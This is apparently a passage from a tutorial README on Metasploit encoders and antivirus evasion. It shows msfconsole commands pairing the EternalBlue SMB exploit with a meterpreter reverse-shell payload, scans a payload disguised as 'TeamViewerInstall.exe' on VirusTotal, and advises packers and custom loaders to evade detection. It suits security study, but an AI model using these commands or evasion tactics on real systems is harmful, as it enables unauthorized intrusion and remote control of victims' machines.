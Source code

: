 
## 🧪 Testing AV Detection

Use the optional `msf-virustotal` script:
```bash
msf-virustotal -k <API_KEY> -f TeamViewerInstall.exe
```

---

## 🔍 Listing Available Encoders

Use `show encoders` in `msfconsole` to view compatible encoders:
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > show encoders
```

### Sample Output:
| Name                  | Rank      | Description                                  |
|-----------------------|-----------|----------------------------------------------|
| generic/none          | Manual    | No encoding                                  |
| x64/xor               | Manual    | XOR Encoder                                  |
| x64/xor_dynamic       | Manual    | Dynamic key XOR Encoder                      |
| x86/shikata_ga_nai    | Excellent | Polymorphic XOR Additive Feedback Encoder    |
| x86/alpha_upper       | Low       | Alphanumeric uppercase encoder               |
| x86/fnstenv_mov       | Normal    | Variable-length `fnstenv/mov` encoder        |
| ...                   | ...       | ...                                          |

*Note: Only compatible encoders are shown depending on the selected payload/exploit.*

---

## 🛡️ Reality Check: AV Evasion

Even multiple iterations of encoding (e.g., 10× `shikata_ga_nai`) will **not guarantee** AV evasion. Many antivirus engines detect common encoded payloads regardless of obfuscation:

- 🔍 Sample detection stats (from VirusTotal scan):  
  **51/68 AV engines** flagged the payload  
  ➤ AVs like BitDefender, Microsoft, Avast, Symantec, Sophos all detected it

---

## 🧠 Summary

- Encoders are still useful for compatibility and basic obfuscation
- `shikata_ga_nai` is popular but no longer reliable for full AV evasion
- Detection can often still occur even after heavy encoding
- Use evasion techniques in conjunction with other tools/methods (e.g., custom loaders, packers, encryption)

---